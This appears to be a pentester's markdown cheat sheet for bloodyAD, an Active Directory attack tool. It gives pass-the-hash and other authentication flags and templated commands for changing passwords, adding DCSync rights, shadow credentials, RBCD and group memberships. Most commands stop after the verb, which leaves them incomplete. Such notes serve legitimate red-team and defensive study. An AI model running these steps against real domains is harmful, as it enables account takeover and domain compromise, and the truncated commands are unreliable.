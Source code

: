 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## auth (cred)
```bash
-u <user> -p <password>
```

## auth (pth)
```bash
-u <user> -p :<nt_hash>
```

## auth (ptt)
```bash
-k
```

## auth (cert)
```bash
-c <key_path>:<pem_path>
```

## set - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Jubeaz12345!>' 
```

## set - add/replace/delete target attribute  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```



## add - new computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```


## get - list children of an object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - DNS records (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - membership (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - search (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - writable (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```

## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```

